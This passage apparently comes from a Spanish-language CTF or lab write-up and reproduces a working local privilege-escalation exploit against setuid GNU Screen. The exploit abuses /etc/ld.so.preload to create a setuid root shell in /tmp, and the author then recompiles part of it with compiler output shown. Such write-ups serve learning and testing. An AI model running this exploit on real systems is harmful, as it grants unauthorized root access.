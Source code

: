 ```bash
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell# 
```

Analizando un poco el script, primero crea un archivo llamado `libhax.c` y lo compila como `libhax.so`; asi que vamos a realizar esta parte, creando dicho archivo y compilandolo.

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

```bash
❯ gcc -fPIC -shared -ldl -o libhax.so libhax.c

libhax.c: In function ‘dropshell’:
libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
    7 |     chmod("/tmp/rootshell", 04755);
      |     ^~~~~
```
